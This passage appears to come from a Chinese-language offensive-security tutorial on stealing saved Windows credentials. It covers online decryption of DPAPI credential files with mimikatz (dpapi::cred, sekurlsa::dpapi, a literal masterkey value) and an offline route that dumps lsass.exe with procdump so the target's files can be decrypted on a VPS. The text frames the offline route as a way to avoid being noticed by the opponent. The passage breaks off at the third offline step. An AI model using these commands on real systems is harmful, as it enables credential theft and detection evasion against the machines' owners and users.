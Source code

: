 ![image-20230202180603540](https://img.gyxnb.top/img/image-20230202180603540.png)

## 在线破解

1、使用mimikatz获取该文件的MasterKey的guid

```
mimikatz dpapi::cred /in:C:\Users\Administrator\appdata\local\microsoft\credentials\FF22A1FDA68FD8515B52C534E8655421
```

所以用于加密凭据文件FF22A1FDA68FD8515B52C534E8655421B的MasterKey的guid就是：{c271c658-e61b4023-95d2-dfbf18b0aa33}，所以我们只要从内存中找到这个guid对应的MasterKey的值即可

![image-20230202180650004](https://img.gyxnb.top/img/image-20230202180650004.png)

2、找到内存中对应的MasterKey

```
mimikatz sekurlsa::dpapi
```

![image-20230202180713961](https://img.gyxnb.top/img/image-20230202180713961.png)

3、最后打开mimikatz通过MasterKey值去解密凭据文件

```
dpapi::cred /in:凭据文件路径 /masterky:masterkey值
```

```
mimikatz dpapi::cred /in:C:\Users\Administrator\appdata\local\microsoft\credentials\FF22A1FDA68FD8515B52C534E8655421 /masterkey:b3354c56cd35630d10aa7477c3d16e9b94587f1dc6f9d0c8fcb72a5e4a25c8aab8fa242194666c4cc4be9485c31af555b01a49abbfbb8cc1c00d209da624f33c
```

![image-20230202180745467](https://img.gyxnb.top/img/image-20230202180745467.png)

## 离线破解

由于我们不能保证我们的mimikatz是免杀状态，为了避免被对方发现，我们可以离线解密从而达到获取密码的目 的其实很简单，就是把目标的文件和内存下载回来，在vps或本机上进行mimikatz解密即可。

 1、下载目标内存

```
procdump.exe ‐accepteula ‐ma lsass.exe lsass1.dump #导出lsass
```

![image-20230202180835043](https://img.gyxnb.top/img/image-20230202180835043.png)

2、下载目标的Credentials文件

![image-20230202180915140](https://img.gyxnb.top/img/image-20230202180915140.png)

3、用mimikatz载入dump回来的内存
